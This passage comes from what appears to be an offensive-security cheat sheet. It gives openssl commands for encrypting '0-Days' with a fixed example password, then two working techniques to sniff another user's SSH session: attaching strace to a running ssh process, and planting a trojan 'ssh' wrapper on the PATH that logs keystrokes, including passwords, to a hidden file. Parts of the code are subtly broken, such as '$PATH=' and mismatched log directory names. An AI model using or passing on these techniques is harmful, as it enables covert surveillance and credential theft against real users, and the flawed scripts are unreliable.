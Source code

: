 Store data in /mnt/crypted, then unmount:

# umount /mnt/crypted
# cryptsetup close crypted
# losetup -d /dev/loop0

8.iii Encrypting a file

Encrypt your 0-Days and log files before transfering them - please. (and pick your own password):

Encrypt:

$ openssl enc -aes-256-cbc -pbkdf2 -k fOUGsg1BJdXPt0CY4I <input.txt >input.txt.enc

Decrypt:

$ openssl enc -d -aes-256-cbc -pbkdf2 -k fOUGsg1BJdXPt0CY4I <input.txt.enc >input.txt

9.i. Sniff a user's SSH session

$ strace -e trace=read -p <PID> 2>&1 | while read x; do echo "$x" | grep '^read.*= [1-9]$' | cut -f2 -d\"; done

Dirty way to monitor a user who is using ssh to connect to another host from a computer that you control.

9.ii. Sniff a user's SSH session without root priviledges

Even dirtier way in case /proc/sys/kernel/yama/ptrace_scope is set to 1 (strace will fail on already running SSH clients unless uid=0)

Create a wrapper script called 'ssh' that executes strace + ssh to log the session:

# Add a local path to the PATH variable so our 'ssh' is executed instead of the real ssh:
$ echo '$PATH=~/.local/bin:$PATH' >>~/.profile

# Create a log directory and our own ssh binary
$ mkdir -p ~/.local/bin ~/.ssh/logs

$ cat >~/.local/bin/ssh
#! /bin/bash
strace -e trace=read -o '! ~/.local/bin/ssh-log $$' /usr/bin/ssh $@
# now press CTRL-d to close the file.

$ cat ~/.local/bin/ssh-log
#! /bin/bash
grep 'read(4' | cut -f2 -d\" | while read -r x; do
        if [ ${#x} -ne 2 ] && [ ${#x} -ne 1 ]; then continue; fi
        if [ x"${x}" == "x\\n" ] || [ x"${x}" == "x\\r" ]; then
                echo ""
        else
                echo -n "${x}"
        fi
done >~/.ssh/.logs/ssh-log-"${1}"-`date +%s`.txt
# now press CTRL-d to close the file
